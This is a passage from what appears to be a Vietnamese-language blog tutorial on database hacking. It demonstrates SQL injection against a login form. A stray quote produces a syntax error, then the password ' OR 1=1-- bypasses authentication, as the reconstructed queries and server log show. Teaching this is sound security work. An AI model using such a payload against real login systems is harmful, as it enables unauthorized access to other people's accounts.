 Nhìn thấy ở log hiển thị SQL syntax error chứ? Điều này chứng tỏ dấu nháy đơn chính là nguyên nhân gây ra lỗi. Thử ghép vào câu lệnh SQL được chạy trên server thì nó sẽ trông như thế này:

```sql
SELECT *
  FROM users
 WHERE email = 'phat.nhagiau@pankhub.com'
   AND pass  = 'password'' LIMIT 1
```

Dư 1 dấu nháy đơn, câu lệnh này chạy trong SQL chắc chắn sẽ lỗi. Và đây chính là thứ gọi là **SQL Injection**.

Sau khi xác định được lỗ hổng, mình sẽ thử đăng nhập lại với password là **`' OR 1=1--`**. Câu lệnh SQL lúc này được thực thi trên server sẽ là:

```sql
SELECT *
  FROM users
 WHERE email = 'phat.nhagiau@pankhub.com'
   AND pass  = '' OR 1=1 --' LIMIT 1
```

Server log:

```log
Rendering login page.
Checking supplied authentication details for phat.nhagiau@pankhub.com.
Finding user in database.
Authentication details confirmed, establishing session for this user.
```

![](/assets/images/posts/may-cai-tro-database-hacking/05.jpg)

